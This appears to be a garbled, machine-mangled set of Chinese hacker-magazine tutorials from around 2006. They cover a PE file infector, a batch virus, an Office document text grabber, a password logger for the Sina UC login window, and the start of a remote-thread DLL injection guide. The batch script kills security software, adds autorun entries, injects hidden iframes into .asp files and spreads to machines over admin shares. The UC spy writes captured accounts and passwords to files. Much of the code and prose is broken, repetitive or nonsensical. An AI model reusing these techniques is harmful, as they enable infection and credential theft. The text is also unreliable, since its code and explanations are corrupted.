熊猫教授：之所以引起回调是因为有很多为了

# PROGRAMMING ANALYSIS

熊猫！为什么会有这么多熊猫？就是为了所有的文件都被感染了；熊猫香是EXE病毒的变种，感染源同样也是修改PE文件，PE是可以携带病毒的写法，Windows可以修改文件的一种方式，PE文件由头部(Header)、节(Table)、节(Section)和其它数据组成，如下所示：

- PE文件
- DOS文件夹
- NT文件夹
- 标签
- 文件夹
- 下级文件夹
- 节
- 图资源(图标、菜单等)

简单的方法是将两个程序合并在一起。熊猫程序在运行，当合并后的程序就会运行病毒；熊猫程序在主程序退出前，我们创建一个简单的`test.exe`作为PE文件，执行`test.exe`、`infect.exe`。最好的做法是这样的：先让主程序在内存中读取`SrcStream`，然后检查标识标记，如果最后四个字节是`4444444`则是标识的，用来表示是否被感染了。如果没有找到识别标记，则复制到另一个文件，将`SrcStream`和`SrcAll`合并，最后将四个个数字`4444444`的标记还原，这就执行了测试。最简单的方法，就是用日本部分的分类函数代码，我修改了代码并注意：完善日本部分的分类函数。

```go
class TMyObject : class
private
  FWndHandle: HWND; // 句柄
  procedure WMDeviceChange(Msg: UINT, wParam: WPARAM, lParam: LPARAM); // 消息处理
public
  constructor Create;
  destructor Destroy; override;
  function CreateObject: TMyObject;
end;

function TMyObject.Create: TMyObject;
begin
  // 构造函数实现
end;

destructor TMyObject.Destroy;
begin
  // 析构函数实现，释放资源
end;
```

这里的方法有一个函数 `AllocateWnd(Method: TWndMethod)` // 封装好的回调指针

# PROGRAMMING ANALYSIS

> 胡明瑞 | socket@hacker.com.cn

```pascal
Stream.Seek(0, fromEnd);
ID = $444444444;
Stream.Write(ID, 4);
// 写入几个测试数据
finally {
  SelStream.Free;
end
end
finally {
  Stream.Free;
end
Stream.SaveToFile(fileName);
// 导出存档文件，保存文件
Stream.Free;
end
except {
end
end

procedure ExtractFile(fileName: string);
var
  Stream: TMemoryStream;
try
  begin
    Stream := TFileStream.Create(ParamStr(fileName), 0, fmOpenRead, fmShareDenWrite);
    // 将封装后的数据读入S
    Stream.Read(S, Viam);
    // 将存档从S读取并拷贝到Dest4-4
    // 由于由于有4个测试数据
    Stream.CopyTo(DestStream, Size-4);
    Stream.SaveToFile(fileName); // 保存
  end
finally {
    Stream.Free;
  end
except {
end
end
end

procedure TForm1.Button1Click(Sender: TObject);
var
  Stream: TFileStream;
begin
  Self.PROCESS_INFORMATION;
try
  begin
    Stream := TFileStream.Create(ParamStr(fileName), 0, fmOpenRead, fmShareDenWrite);
    Stream := TMemoryStream.Create;
    ID = ID - 0;
    ExtractFile('test.exe');
    // 好好注册登录
    // 创建新的快捷方式运行指定的程序
    ShellExecute(handle,"show","test.exe",nil,nil,1);
```

```pascal
SW_SHOWNNORMAL);
end
elise
showmessage('没有感染不能释放');
Stream.Free;
except {
end
end

procedure TForm1.Button2Click(Sender: TObject);
begin
  InfectFile('test.exe'); // 好好注册登录
```

如图2所示，点击感染后会`Infect.exe test.exe`，释放病毒使用相同的原理处理所有文件并改成感染标号的。



当我们感染后的`test.exe`，会先运行后exe，后再点击释放并运行方便释放exe并执行，


图3所示，释放的过程还是检查是否感染标记并标记。


图1 感染前

图2 感染后



释放的结构还是`Stream`，然后从磁盘处理结束处，缩小大小到1Stream剩余4个字节，这一段出来就是主文件。



图3 存档文件后

简单的文件结构是这样的，为了更好隐藏病毒结构，我们可以将病毒的结构画在结尾，这样就会改变感染后的图标了。以上只是用代码来演示，绕过病毒来感染整个可执行文件，被发现就很难了。现在我们已经理解了病毒是如何感染整个3个地方的原理，这里还有它其他结构，想要扩大功能可以使用这种病毒的方法，对于学习Windows虚拟机有一个更深的理解，也会编程有帮助。本文技术分享，千万不要将这些技术用于编写那些破坏性的病毒，以免害他人利益。



胡明瑞 2006年春季博客 31

## 编程解析

适合读者：编程爱好者

前置知识：处理

## 批处理病毒


图/某某某

最近几个月，网络上病毒猖獗，网络上泛滥，专攻工具一搜一搜，转到正者，最近对处理病毒瘤感染到病毒瘤病毒无它，它是只是打了一爪，下的病毒瘤的特征是，它占了病毒病毒的半成品，是由处理程序制作的。

病毒病毒的特征是启动后复制自身到`system32`，修改文件属性为显示隐藏文件；它通过注册表项实现启动自动删除安全软件，删除安全软件的病毒扫描表，病毒后删除安全软件的病毒扫描表并复制到AS、ASP、HTML和XML文件，通过写入木马代码感染所有非系统文件执行权限，则删除所有的备份文件。一句话，狠了，集合了很多病毒特征！处理这些特征的病毒需要用处理来操作，从SE和文件属性来实现其他病毒还能处理。例如我将编写脚本，你不会处理，那么通过这篇文，你对它就能了解什么是病毒涉及的内容。

```batch
@echo off
REM 检查多个执行的进程
taskkill /f "image eq ms.exe"
taskkill /f "image eq Update.exe"
taskkill /f "image eq Mon.exe"
taskkill /f "image eq Center.exe"
taskkill /f "image eq Run.exe"
taskkill /f "image eq svchost.exe"
taskkill /f "image eq explorer.exe"
taskkill /f "image eq Task.exe"
taskkill /f "image eq bg.exe"
taskkill /f "image eq Agent.exe"
taskkill /f "image eq Loki.exe"

REM 是结束进程的命令，是一个结束命令的参数，不需要加引号直接运行。
REM 启动木马程序
start %system%\system2\drv.com
start /f 打开这个文件，这里的drv.com 就是一个文件%system%是环境变量，指向C:\Windows\temp.txt

REM 处理所有病毒时进行调试
for /i in (defghi)
REM 是循环语句，处理病毒时用变量遍历，这样就可以遍历所有属性的文件。例如：attrib -s -h %system%\temp.txt

REM 是循环语句，处理病毒时用变量遍历，这样就可以遍历所有属性的文件。例如：attrib -s -h %system%\temp.txt

REM 是判断语句，处理病毒时如果文件不存在，则执行后面的命令；如果文件存在，则执行
if errorlevel=1 goto skip
if errorlevel==1 goto fail
if errorlevel=0 goto success

REM taskkill是结束进程的命令，用于结束指定的进程。例如：taskkill /f "image eq .exe" /t

REM 是循环语句，处理病毒时用变量遍历，这样就可以遍历所有属性的文件。例如：attrib -s -h %system%\temp.txt

REM 可以用来注释复制内容
copy %system%\temp.txt
```

# PROGRAMMING ANALYSIS

// 意为`ydold`这里是一个环境了，以后用这些参数进行测试。希望测试成功。

```batch
copy sysrv.com %ydold%\y
attr +h %ydold%\y
attr +h %ydold%\y
if exist(%ydold%\y) (
  REM 意为文件存在@autofun.run，执行
  REM 内容，重新执行
  del /f /q %ydold%\y
  autofun.run %ydold%\y
)
```

// 意为文件存在`@autofun.run`，执行，内容，重新执行

// 对进行操作，由于没有权限会自动创建一个注册表项，这样在电脑后病毒会自动运行。注册表项被删除后，如果删除注册表项，病毒就不会自动运行。

```batch
del %ydold%\y
echo @autofun.run
echo // 意为是删除，由于没有权限写入注册表项，这样在电脑后病毒会自动运行。这里已经是一个环境了，以后用这些参数进行测试。希望测试成功。
```

// 意为是这里是一个环境了，以后用这些参数进行测试。希望测试成功。

```batch
if exist(%ydold%\y) (
  echo shell:\open\command.bat.exe
  echo shell:\open("%@autofun.run")
  del %ydold%\y
)
 // 意为这里是一个环境了，以后用这些参数进行测试。希望测试成功。
```

// 这是用来删除病毒的程序，用于在重启后让自动删除病毒检测器。（由于认为没有权限移动病毒，所以这里会自动删除检测器。注册表项被删除后，如果删除注册表项，

```batch
if exist(%ydold%\y) (
  echo shell:\open\command.bat.exe
  echo shell:\open("%@autofun.run")
  del %ydold%\y
)
 // 意为这里是一个环境了，以后用这些参数进行测试。希望测试成功。
```

// 注册表项，由于没有权限会自动创建一个，这样在电脑后病毒会自动运行。注册表项被删除后

```batch
if exist(%ydold%\y) (
  echo shell:\open\command.bat.exe
  echo shell:\open("%@autofun.run")
  del %ydold%\y
)
 // 意为这里是一个环境了，以后用这些参数进行测试。希望测试成功。
```

// 注册表项，由于没有权限会自动创建一个，这样在电脑后病毒会自动运行。

```batch
attr +h %ydold%\y
// 意为用于删除病毒程序，用于在重启后自动删除检测器。
// 递归循环，会自动生成asp文件
for /i in (abcdefghijklmnopqrstwuv) do (
  if exist %i.* (
    for /t %%j in (dir /s /b /a-d.*.asp) do echo <iframe src=http://127.0.0.1 width="0" height="0"></iframe> >> %%j
  )
)
```

发现病毒，这里会自动删除。递归循环，会自动生成`asp`文件。

# PROGRAMMING Analysis

`sc`命令，在此处相同在Windows2000上执行。这样做是为了减少服务的等待，可以在服务器上执行命令复制到系统32目录，这样可以使用了。

```
sc Wvc
sc Ptws
sc Proxy
sc Sage
sc BC
sc Symantic
sc Nnt
sc MakService
```

继续执行的命令，设置端口为1450，用数字可以或者更改设置用户名，这样就不会冲突，为了帮助。

```
set /a ip=1

:: 后续ping地址，每次执行。变量ip是这样赋值

if %ip% neq 255 goto loop

:: 小于255继续循环，就退出

exit
```

好，此处处理部分都完了。不是必须的，但你可以根据任何命令来调整。你需要具体的参数。

```
del Sysroot%

del %var%
```

// 等于bat，那么就会执行所有任务的结束，但是这里执行所有。这里的脚本有一个点，可以根据的大小来调整。我已经用了`i`，for循环来执行ping命令，如果IP不等于255则第一个参数，继续执行。设置ip后，我们的结果会在结束后，你自己可以自动结束吗？处理超时之后，下面将逐一显示一种伪装技巧，处理超时可能比你想象被很多人发现到，处理时的技巧可能比你编写的复杂，有一个点就是处理是不容易的，这里可以怎么办？我学习的经验，有几种方法可以对处理后的执行生效，或者对超时使用Unicode来调整脚本！将超时来处理，可以添加的技巧


```batch
for /tokens 1*2 %%a in ('ping -n 1 %address%') do set ip=%%b

if %ip%==timeout goto label1

:: 这里ping超时后我们将执行IP地址的
```

```batch
for /l %%i=1,2,3 %%i in ('ping -n 1 %address%') do set ip=%%b

if %ip%==timeout goto label2

:: 这里ping超时后我们将执行IP地址的
```

这里会有三部分。为了超时，将三个IP变量设置为2，或者设置为3，这样可以用变量来计数。

```batch
if %i%==2,3 goto label
:: 从超时处理的第三ping段与IP地址的跳转，不需要剩余的IP
ping %%a -n 1 /t 1 <& use %%a%%%1234567890%%a=administrator& copy bat.bat %%a%%%aadmin& REG ADD %%a%% /v /t REG /d /c:type /v REG_EXP_SZ /d 1 /c:WINDOWS\System32.bat /v /c:
```

```batch
for /l %%i=1,1,10 do set %%i=%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%a%%
```

# PROGRAMMING ANALYSIS

适合读者：编程爱好者

前置知识：VC

## Office Spy

针对不同程序进行内容监控和文本提取，黑功夫已经介绍了少，如针对特定工具、网页界面等。今天，笔者和大家一起来写一个 Office Spy，针对 MS Office，利用其 COM 提取文本，保存它的文档内容：

我们使用了 MSWord 作为例进行提取，其他组件同样可以遍历，Office 的 COM 提取动作是这样：

`Application`（应用程序）、`Documents`（所有文档格）、`Document`（一个文件）、`Selection`（内容）等对象对于我们来说，我们要获取文本，保存文档动作就是对这些对象的操作。好了，现在开始。

类型的文档文件名为 `Mword.old`，在 `C:\Program Files\Microsoft Office\Office11` 的文件夹下，Word 2000 类的文档文件名为 `Mword9.old`，选择类型文档后，在接来的 Confirms Class 定义中选择 `_Application`、`_Document` 和 `Selection` 三个类所示：


我们保留我们头部文本文件 `msword.old` 文档 `msword.cpp`，在这些引用的源文件中，需要包含文本的，在这些对象上进行操作，我们需要进行初始化，让 `OfficeSpy::Initialize()` 函数，在选择添加 `AfxWinInstance(NULL)` 后如下：

### 逆向工程

打开 VC6，创建一个基于 Word 的工程 Office Spy，绘制主界面上的获取、确定按钮和文本标签添加“获取ID（`IDC_BTN_SAVEDGETTEXT`）”文本，“保存（`IDC_EDIT`）”按钮和一个编辑框属性和 `Scroll` 属性，界面设计如图1。

### 提取文本

获取文本的步骤主要是获取程序对象、文档对象、内容，在获取文本动作后删除对象，用我们的实现代码如下：

```cpp
void OfficeSpy::OnGetText(CBn)
{
    CLSID cls;
    HRESULT result = CoCreateFromProgID((LPCOLESTR)L"Application", &cls);
    // 从ProgID得到 CLSID
    if (SUCCEEDED(result))MessageBox("可能获取Office Spy。", MB_OK);
    IDispatch* pUnknown=NULL;
    IDispatch dispatch=NULL;
    Application app=NULL; //对应对象
    selection sel=NULL;
    hr=sel->GetObject(NULL, &pUnknown);
    if (SUCCEEDED(result))MessageBox("有WORD在运行了。", MB_OK);
}
```

图 1

打开 Word，点击向下箭头点击 Add 按钮，从下拉菜单中选择 from type Word, 2003

```cpp
return;
hr=pUnknown->QueryInterface(IID_Dispatch, (LPVOID *)&app);
if (!SUCCEEDED(hr)) {
    MessageBox("这里获取WORD文档指向失败。");
    return;
}
pUnknown->Release();
if (!app) {
    sel=app.GetSelection;
    MessageBox("这里没有WORD文档。");
    return;
}
long start=sel.GetStart(); //获取起始
long end=sel.GetEnd();
while (start<end) {
    sel.SetStart(start); //设置起始
    sel.SetEnd(end); //设置结束
    sel.SetText(DC_EDITTEXT); //写入内容
    start=end;
}
pUnknown->Release();
app.ReleaseDispatch();
```

```ini
password=""
ReadOnly=False
EmbedTrueType=False
SaveNativePicture=False
SaveFormatData=False
SaveAAOCLEf=False
```

从上面的介绍中，我们可以知道保存文档是对 `_Document`（当前文档）进行操作的。查询方法 MSDN 中，`Document` 有一个 `SaveAs` 函数。页面上大概就是它，函数签名如下

```cpp
void VBASaveAs(FileName, Format, LockComments, Comments, Password, AddToRecentFiles, ReadOnly, ReadOnlyRecommended, EmbedTrueType, SaveNativePicture, SaveFormatData, SaveAAOCLEf)
```

这11个参数中，哪些是有用的？这些参数又可以设置什么？这里我创建一个任意 Word 文档，选择菜单->工具->创建自定义。创建自定义后，点击文件菜单->“另存为”，文件名为 `abcd`，停止另存为，查看对话框，如下所示

```ini
ActiveDocument.FileName="abcd.doc"
Format=wdFormat
LockComments=False
Password=""
AddToRecentFiles=True
```



### 结语

Office COM 提供了我们功能实现的所有可能，还可以用它来实现文本输入、表格创建、图形绘制、文档编辑、加密密码以及 Office 原本的大部分功能。本文通过简单的拖拽示例，编写过程中参考了老师的相关的技术资料，特此感谢。以祝大家在 Windows XP+VC 中通过教程



# PROGRAMMING ANALYSIS

适合读者：编程爱好者

前置知识：VC

## 签号编辑器新浪VC

近来，即时通讯工具是签号码狐重点区域。大禹的腾讯QQ使得深度解析，后使用护肤工具，键盘加等技术来招敌，其他IM工具！新浪VC，网络海浪，涛捷，通过一个我过去，形势不乐观的。诸如此，让或许，或许的本文以新浪VC为例，介绍了一种签号和密码的记录过程。

`TUCtabSheet` 的子窗口有两个，类名均为 `ImagePanel`，但窗口标题一个是 Logo，另一个是 `ImagePanel`，无疑判断，后者是我们需要的。再向使用 `FindTUCtabSheet`，其具有下方几个子窗口，类名为 `UCFlatEdit` 是密码框，名为 `UCComboBox` 的是下拉标签。对于 VC 来说，由父窗口查找，我们可以使用 `FindWindow` 来查找，其数据如下：

### 签号编辑器分析

我们用的编程工具是 VC6，窗口分析是 Visual Studio 的 C++2008，输入注册和密码，后点击菜单“搜索”-查找密码，拖动到注册框上，得到的密码类名为 `LoginForm`，或是如图1所示，再通过密码探测密码框，输入框结构如下：

```cpp
HWND FindWindow // 查找窗口
HWND GetParent // 查找父窗口
HWND FindChildWnd // 查找子窗口
LPCTSTR GetClassName // 获取类名
HWND GetClassName // 获取窗口
```

其中第二个窗口结果值为 NULL 之后而是第三、第四个框不在其中两个值中，均赋值 NULL。

### 编辑器设计

首先使用计时器监控编辑器，如果窗口名为 `TLoginForm`，可能是 UC 窗口，时用 `FindWindow` 来查找窗口和密码框，这通过一个中触发，直到我们查找密码和密码框，且不需要，用两个变量 `m_strID` 和 `strPWD` 保存，得到的类名是 `TLoginForm`，一定是 UC 窗口出现（密码框已被载了），此时检查上述两个变量是否为空，非空写入文件，将其清空，显示状态，此处的逻辑用显示2所示。UC 在 C++ 中的窗口结构符合矩形层，大部分窗口有一个子窗口，让我们外层窗口查找来方便了，若是外层窗口，唯一的子窗口名为 `TPanel`，向下，唯一的子窗口名为 `tabControl`，`TabSheet`。

### 编码实现

活动 VC6.0，创建一个基于对话框的 MFC 框架。

```cpp
HWND hWnd=NULL;
char strID[100]="";
strPWD[100]="";
hTemp=FindWindow(NULL,"TPanel");
if(Temp) return FALSE;
hTemp=FindWindowEx(NULL,"TControl");
if(Temp) return FALSE;
hTemp=FindWindowEx(hTemp,"TabSheet");
if(Temp) return FALSE;
hTemp=FindWindowEx(hTemp,NULL,"TPanel");
if(Temp) return FALSE;
hTemp=FindWindowEx(hTemp,NULL,"TControl");
```

图1

UCSpy，在 `UCSpDlg` 类中添加变量 `m_strID` 和 `strPWD` 成员函数 `FindUC(HWND hWnd)` 在用中查找账号和密码。添加 `WM_TIMER` 消息，其实实现如下：

```cpp
void UCSpDlg::OnTimer(UINT nID)
{
    // TODO: Add initialization code here or call default
    hWnd=GetForegroundWindow();
    CString ID(m_strID);
    CString pwd(strPWD);
    if(Find(hWnd,"LoginForm")==NULL)
        return FindUC(hWnd);
    else
        if(!ID.IsEmpty() && !pwd.IsEmpty())
            MessageBox("账号错误：%s%s","登录错误",MB_OK);
            FILE *file=fopen(ID+".txt","w+");
            fprintf(file,"%s%s\n",ID,pwd);
            fclose(file);
            m_strID="";
            strPWD="";
            CDialog::OnTimer(nID);
}
```

类函数 `FindUC` 在查找账号和密码的过程中，我们还需要考虑到一个问题，类名为 login 的窗口并不是登录窗口，所以我们在每一查找窗口时都会判断，如果没有找到，则返回 TRUE。这次实现功能的代码如下：

```cpp
BOOL FindUC(HWND hWnd)
{
    HWND hTemp=NULL;
    hWnd=NULL;
}
```

在程序的初始化过程中，我们还要全局变量重置为空，并启动定时器，实现如下：

```cpp
BOOL OnInitDialog()
{
    // TODO: Add extra initialization here
    m_strID="";
    strPWD="";
    SetTimer(1,100,NULL);
    return TRUE; // return TRUE unless you sets focus to control
}
```

### 结论

仔细的读者可能会发现，整个登录窗口有4个名为 `FlatEdit` 的窗口（由于有4种标识方式），我们的窗口是第一个。有时，我们可以用 `EnumWindows` 查找所有窗口，通过回调 `lpEnum` 查找窗口类，如果是 `FlatEdit`，获取其内容并返回 `FALSE`，具体过程，大家可以自己试。在监控方面，许多人都是用颜色的方式来判断登录窗的有效性，虽然理论上更准确，但我认为：监控窗口后，流畅无法在活动中输入字符的。对于 B 版本的读者来说，登录查找本地部分并没有用 MFC 来实现，而是用了 Win32 API 编写。在附带的资源，同时也有旧版本的 Spy，在程序中使用 XP+VC 中调试，文中有些不足之处，欢迎大家到论坛或 VC 群 12305 和我讨论。

# PROGRAMMING ANALYSIS

适合者：编码者高级

前置知识：DLL

## NT系统中利用远程线程实现无进程DLL

杨华力/Star

在第三期的《木钩DLL注入系统服务》中，介绍了如何用远程线程注入 DLL 并在运行的方法，这种方法虽然在系统中产生进程，但是在进程中弹出一个 DLL 模块，虽然看着很方便，但技术是不需要的。我想要介绍一种改进的远程调试方法，下面介绍的方法是用远程线程直接加载到目标进程中，运行挂钩的 DLL，加载、插入、执行完毕后，我还没有什么工程工具可以做到调试，危险性极大！创建一个远程线程，远程线程的代码标识需要先写在目标进程的内存中，另外要保存地址以便跳转。使用 `OpenProcess` 打开目标进程，用 `VirtualAlloc` 在目标申请足够的内存，用 `WriteProcessMemory` 将远程线程的代码写入相同的内存中，用 `CreateRemoteThread` 创建线程。思路虽然有了，但我们还要注意一些实现的细节问题。第一个是 API 的问题，我知道，API 位于 DLL 中，如远程线程若要用到某个 API，那劣方调试

